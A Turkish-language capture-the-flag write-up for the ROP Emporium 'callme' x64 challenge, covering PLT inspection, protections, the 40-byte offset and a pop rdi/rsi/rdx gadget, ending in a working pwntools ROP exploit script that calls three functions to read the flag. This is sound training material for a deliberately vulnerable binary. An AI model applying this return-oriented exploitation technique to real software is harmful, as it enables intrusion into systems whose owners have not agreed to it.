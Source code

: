 # ROP Emporium `callme` Writeup

![detail](img/detail.png)

x64 mimaride programımızı indirdikten sonra web sayfasını detaylı incelersek bize bölümü geçmek için `callme_one` `callme_two` `callme_three` isimli 3 tane fonksiyonumuz olduğunu ve bunların herbirine parametre olarak (1,2,3) gönderdiğimiz zaman `encrypted_flag.txt` dosyasını okuyabileceğimize dair bir ipucu görebiliriz. Üstteki görselde ise bize `PLT` hakkında bişiler olduğunu söylemiş.

O halde `objdump -d callme` ile programımızın `Disassembly of section .plt:` bölümünü inceleyelim.

![callme_one@plt](img/callme_one_plt.png)

![callme_two@plt](img/callme_two_plt.png)

![callme_three@plt](img/callme_three_plt.png)

Gördüğünüz üzere çağırmamız gereken fonksiyonlar burada. Peki bu fonksiyonlar nereden geliyor ?

![ldd](img/ldd.png)

Özel bir libc kütüphanesi kullanıyor. `libcallme.so`

`NOT :` .plt içerisinde bulunan fonksiyonlar libc kütüphanesi/kütüphaneleri içerisinden gelmektedir

![checksec](img/checksec.png)

`NX` ve `ASLR` korumalarımız açık. Offsetimiz 40 byte.

x64 mimarili sistemlerde `rdi` ilk argüman `rsi` ikinci argüman `rdx` üçüncü argümanı almaktadır. Eğer `pop rdi; pop rsi; pop rdx; ret` komutunu çalıştıran bir gadget bulabilirsek sırasıyla argümanlarımıza bizden istenen `1,2,3` sayılarını yazabilir ve daha sonra fonksiyonlarımızı çağırıp istenen şekilde çalıştırabiliriz.

![ropsearch](img/rop-gadget.png)

Artık elimizde gerekli bilgiler olduğuna göre exploitimizi yazabiliriz.

```python

from pwn import *

elf = process('callme')
# pop rdi ; pop rsi ; pop rdx ; ret
rop = p64(0x0000000000401ab0)

callme_one = p64(0x00401850)
callme_two = p64(0x00401870)
callme_three = p64(0x00401810)

one = p64(1)
two = p64(2)
three = p64(3)

func = rop
func += one
func += two
func += three

# callme_one(1,2,3) callme_two(1,2,3) callme_three(1,2,3)
payload = ('A'*40).encode()
payload += func
payload += callme_one
payload += func
payload += callme_two
payload += func
payload += callme_three

print (payload)
print (elf.recv())
elf.sendline(payload)
print (elf.recvall())

```

![exploit](img/exploit.png)

Ve flag'i başarılı bir şekilde okumuş olduk
